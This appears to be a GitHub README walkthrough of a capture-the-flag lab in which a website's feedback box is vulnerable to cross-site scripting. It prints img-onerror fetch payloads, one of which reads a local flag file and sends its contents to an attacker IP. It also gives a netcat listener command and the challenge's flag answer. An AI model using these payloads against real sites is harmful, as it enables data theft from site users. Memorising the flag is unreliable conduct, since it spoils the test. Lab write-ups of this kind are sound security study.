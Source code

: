 ![image](https://github.com/user-attachments/assets/c3a16a82-63e5-4467-b055-282e5a2316d5)

____________________________________________________________________________________________________________________ 

This CTF is designed around exploiting a cross-site scripitng vulnerablility within the target's website.

XSS examples learnt from this exercise:

``` <img src = x onerror="fetch('http://attacker_ip:port')"/> ```

``` <img src="x" onerror="fetch('http://victim_ip/file').then(r => r.text()).then(r => fetch('http://attacker_ip:port/?c=' + r))"/> ```

## The sticker shop is finally online!

<details>
<summary> Discovering the XSS Vulnerability </summary>
  <p></p>

____________________________________________________________________________________________________________________  

From exploring the website, which is very bare bones, there is a big customer feedback box which is very badly sanitised.

![image](https://github.com/user-attachments/assets/e58903a5-a95f-4a97-9d01-8af8565dabe2)

We can check for bad sanitisation and whether or not we can abuse it to steal data back to our attacker machine by submitting an xss attack test to the feedback box:

``` <img src = x onerror="fetch('http://attacker_ip:8080')"/> ```

This works as follows:

**img src=x** -> This tries to make the website load an image that doesnt exist, so therefore it throws an error.

**onerror=** -> This defines what to do when the image fails to load and an error is thrown.

**fetch=** -> This makes a network request to the IP/URL in the brackets.

A netcat session can be created to listen for the reply using the following command:

```nc -nvlp 8080```

All together, the text box is fed a request to open an image that doesnt exist. It can't, so it defaults to the error that tells it to send a network request back to the attackers machine. As there is a netcat session listening on the same port, it can recieve a response from the web server, proving there is a vulnerability to be exploited.

![image](https://github.com/user-attachments/assets/da4d8e2a-32b4-43d0-8f0c-07709ef530b5)

____________________________________________________________________________________________________________________ 

</details>

<details>
<summary> Abusing the vulnerability to get the flag </summary>
  <p></p>

____________________________________________________________________________________________________________________ 
  
Knowing this information, I basically fed the question to chatgpt and it provided me a lovely crafted response with additional lines added onto the initial injected code as seen below:

``` <img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://10.10.239.245:8080/?c=' + r))"/> ```

This is very similar to the previous injection, but this time taking data from the /flag.txt/ directory instead.

This works as Follows:

**.then(r => r.text())** -> This converts the response to text

**.then(r => fetch('http://attacker_ip:8080/?c=' + r))** -> This sends the converted response to the attacker IP who is listening

All together, it makes the web server send a request to itself on its local ip, converts the response it has gathered from the page to text, then sends it to the attacker IP who will be listening again using netcat.

![image](https://github.com/user-attachments/assets/33c82a30-a34c-49fa-bef4-8f333bb41509)

``` Answer = THM{83789a69074f636f64a38879cfcabe8b62305ee6} ```

____________________________________________________________________________________________________________________ 

</details>

